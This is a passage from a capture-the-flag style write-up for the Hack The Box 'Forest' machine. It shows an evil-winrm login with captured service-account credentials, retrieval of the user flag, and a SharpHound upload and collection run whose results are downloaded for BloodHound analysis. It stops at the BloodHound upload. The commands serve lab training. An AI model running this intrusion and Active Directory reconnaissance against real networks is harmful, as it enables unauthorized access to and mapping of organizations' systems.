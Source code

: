 ```
$ evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type C:\Users\svc-alfresco\Desktop\user.txt
0c2697dca35c...
```


## shell as administrator

given that this is an active directory machine I will make use of bloodhound to find a way to become administrator

I will copy the built-in sharphound.exe from bloodhound to the directory where I started the evil-winrm session

```
$ cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe .
```

I start the neo4j console to make bloodhound functional

```
$ sudo neo4j console
```

then I launch bloodhound and connect to neo4j using my credentials (the default neo4j credentials are neo4j:neo4j). 

on the evil-winrm session I upload SharpHound.exe to the machine

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> upload SharpHound.exe                                     
Info: Uploading /home/linux/Desktop/forest/content/SharpHound.exe to C:\Users\svc-alfresco\Desktop\bh\SharpHound.exe
```

using sharphound I start the collection method for "All"

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> .\SharpHound.exe -c All
```

after it finishes collecting the data I download the zipped file to my machine 

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> download 20240915111107_BloodHound.zip /home/linux/Desktop/forest/content/data.zip
```

and I upload the data to bloodhound 

![](assets/img/htb/forest/upload_data.png)
